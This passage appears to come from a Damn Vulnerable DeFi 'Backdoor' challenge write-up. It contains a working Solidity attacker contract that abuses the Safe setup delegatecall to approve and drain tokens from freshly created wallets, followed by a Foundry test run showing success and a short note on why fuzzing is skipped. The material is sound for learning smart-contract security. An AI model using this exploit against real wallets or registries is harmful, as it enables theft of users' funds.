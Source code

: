 ```solidity
    function handle_delegatecall(DamnValuableToken _token, address attacker) public {
        _token.approve(attacker, 10e18);
    }

    function attack(address[] calldata users) public {
        for (uint i = 0; i < 4; i++){
            address[] memory owners = new address[](1);
            owners[0] = users[i];
            bytes memory attacking_data = abi.encodeCall(
                this.handle_delegatecall, (token, address(this)));

            bytes memory initializer = abi.encodeCall(
                Safe.setup,
                (
                    owners,
                    1,
                    address(this),
                    attacking_data,
                    address(0),
                    address(0),
                    0,
                    payable(address(0))
                )
            );

            SafeProxy wallet = factory.createProxyWithCallback(singleton, initializer, 1, IProxyCreationCallback(registry));

            token.transferFrom(address(wallet), recovery, 10e18);
        }
    }
}
```
`test_backdoor`:
```solidity
function test_backdoor() public checkSolvedByPlayer {
    Attacker attacker = new Attacker(token, walletFactory, walletRegistry, address(singletonCopy), recovery);
    attacker.attack(users);
}
```
Run:
```javascript
$ forge test --mp test/backdoor/Backdoor.t.sol
...
Ran 2 tests for test/backdoor/Backdoor.t.sol:BackdoorChallenge
[PASS] test_assertInitialState() (gas: 62853)
[PASS] test_backdoor() (gas: 2167005)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 9.43ms (1.69ms CPU time)      
```
Success!
## Fuzzing?
According to tradition, this should be some effort "to fit a square peg into a round hole" and somehow make fuzzing engine work in the current problem. But, in fact, we are unlikely to find any "academic novelty" in this. We have already seen how Echidna behaves in tasks with a high level of abstraction and how unnatural, inconvenient and even "fraudulent" it seems to prepare for such a solution to the problem using the example of [selfie](https://github.com/igorganich/damn-vulnerable-defi-halmos/tree/master/test/selfie#fuzzing-vs-selfie). Therefore, in this article I will not torture myself or the reader, and we will abandon the search for a solution through fuzzing. But I'd be happy to look at someone's elegant solution via fuzzing, if it exists. I will be glad to be wrong in my conclusions :D.
